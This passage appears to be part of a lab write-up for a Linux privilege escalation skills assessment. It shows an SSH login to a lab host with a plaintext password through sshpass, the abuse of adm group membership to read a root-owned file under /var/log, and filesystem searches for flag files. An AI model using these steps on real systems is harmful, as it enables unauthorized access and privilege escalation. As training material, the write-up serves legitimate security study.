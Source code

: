 #### Lateral Movement

```
┌──(nabla㉿kali)-[~]
└─$ sshpass -p 'i_l0ve_s3cur1ty!' ssh barry@10.129.235.16

Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-45-generic x86_64)

[SNIP]

barry@nix03:~$
```

```
barry@nix03:~$ cat flag2.txt

LLPE{*********************** 📌
```

#### Linux Privilege Escalation Abusing Privileged Groups

```
barry@nix03:~$ id

uid=1001(barry) gid=1001(barry) groups=1001(barry),4(adm)
```

```
barry@nix03:~$ find / -type f -name "flag3.txt" -ls 2>/dev/null

393416      4 -rw-r-----   1 root     adm            23 Sep  5  2020 /var/log/flag3.txt
```

```
barry@nix03:~$ cat /var/log/flag3.txt

LLPE{***************** 📌
```

#### Information Gathering - Web Applications

```
barry@nix03:~$ find / -type f -name "flag4.txt" -ls 2>/dev/null

528779      4 -rw-------   1 tomcat   tomcat         25 Sep  5  2020 /var/lib/tomcat9/flag4.txt
```

![Firefox - Homepage](./assets/screenshots/linux_privilege_escalation_skills_assessment_01.png)
